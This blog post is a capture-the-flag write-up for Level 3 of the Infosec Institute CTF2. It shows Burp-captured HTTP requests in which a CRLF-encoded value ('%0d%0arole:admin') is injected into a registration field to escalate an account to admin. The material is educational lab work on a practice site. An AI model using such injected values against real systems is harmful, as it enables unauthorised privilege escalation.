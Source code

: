 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 3
category: Web
tags: CTF challenges
---
```


# ctf.infosecinstitute.com: Level 3
**Vulnerability** Data Validation; Parameter Delimiter
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-16 at 11.51.03 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
Let's first create a user account to test the functionality. Again, have Burp running so we can see the HTTP request.

When creating an account the HTTP request looks like this:

{% highlight text linenos %}
POST /ctf2/exercises/ex3.php HTTP/1.1
Host: ctf.infosecinstitute.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php
Cookie: PHPSESSID=gdc668pjmpah42hegt7sa7igc3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

user=A1A2A3A4&password=A1A2A3A4&lname=A1A2A3A4&email=A1A2A3A4%40aaa.com&register=Register
{% endhighlight %}

Login using the user we created, we can see that the role is 'normal', we need to change it to admin.

![screen1]({{site.url}}/assets/Screen Shot 2015-07-16 at 11.58.23 PM.png)

We can use Burp's Repeater to efficiently experiment with different parameters and values. Find the Registration request under
the Proxy tab -> HTTP History, right click and select 'Send to Repeater'.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.34.08 AM.png)

After a while experimenting I noticed that adding a newline character would change the order of parameters.  

Registration HTTP request:

![screen3]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.51.53 AM.png)

The newline character is url encoded '%0d%0a' in the password parameter. When I login, Account Details displays the following:  

![screen4]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.42.02 AM.png)

This means that we have shifted the order of the account's attributes so, if we do our insertion after the lname parameter,
we should be able to inject the role attribute in the right spot.

HTTP request:

{% highlight text linenos %}
POST /ctf2/exercises/ex3.php HTTP/1.1
Host: ctf.infosecinstitute.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php
Cookie: PHPSESSID=gdc668pjmpah42hegt7sa7igc3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

user=A1A2A3A4&password=A1A2A3A4&lname=A1A2A3A4%0d%0arole:admin&email=A1A2A3A4%40aaa.com&register=Register
{% endhighlight %}

And... Level 3 complete.

![screen5]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.34.12 AM.png)

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php>

